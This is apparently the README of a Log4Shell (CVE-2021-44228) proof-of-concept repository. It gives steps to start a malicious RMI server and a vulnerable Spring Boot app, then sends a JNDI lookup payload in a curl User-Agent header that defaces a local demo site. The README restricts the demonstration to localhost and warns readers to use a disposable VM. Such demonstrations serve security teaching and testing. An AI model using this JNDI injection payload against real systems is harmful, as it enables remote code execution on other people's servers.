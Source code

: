 # Demonstration of the Log4jShell Exploit

This code may contain malware and is known to contain vulnerabilities. 

Use at your own risk - if you use it, be advised to do that in a VM  - discard the VM after use.

# log4shell-rmi-poc

A Proof of Concept of the Log4j vulnerability (CVE-2021-44228) over Java-RMI
It uses Log4j 2.5.7 from spring-boot-starter-log4j2

## Requirements:

Tested with Java 8 (JDK 1.8.0_25), Java 11 (JDK 11.0.1) and Java 19 (openjdk 19.0.2)

## How to run the POC

### 1. Clone the repo:

```bash
git clone https://github.com/Labout/log4shell-rmi-poc.git
```

### 2. Start the attacker RMI Server

```bash
cd log4jshell-rmi-server
./startRmiServer.sh 
```

You should get something like this:

```
a target/classes/static
a target/classes/static/index.html
a target/classes/static/img
a target/classes/static/img/wc.png
Starting malicious RMI Server
Creating evil RMI registry on port 1099
Bind remote exploit to 'WannaCry'
```

### 3. Start the vulnerable Log4j application (a simple spring boot application)

In a new Terminal 

```bash
cd vulnerable-log4j-app
./startVulnerableService.sh
```

### 4. Show the original site (a dummy web-site)

```bash
open http://localhost:8080
```

The original website is opened in your browser.


### 5. Inject a vulnerable JNDI over the "User-Agent" header 

```bash
curl http://localhost:8080 --header 'User-Agent: ${jndi:rmi://127.0.0.1:1099/WannaCry}'
```

The website gets updated with the data provided from malicious RMI server that has been started in the first step.

> [!NOTE]
> To protect against real exploitation, this must be done from a client located at 127.0.0.1.

### 6. Show the now hacked site

```bash
open http://localhost:8080
```

(or just shift-reload in your browser). The hacked website is returned.

## References 

* https://www.cisecurity.org/log4j-zero-day-vulnerability-response/
* https://www.lunasec.io/docs/blog/log4j-zero-day/
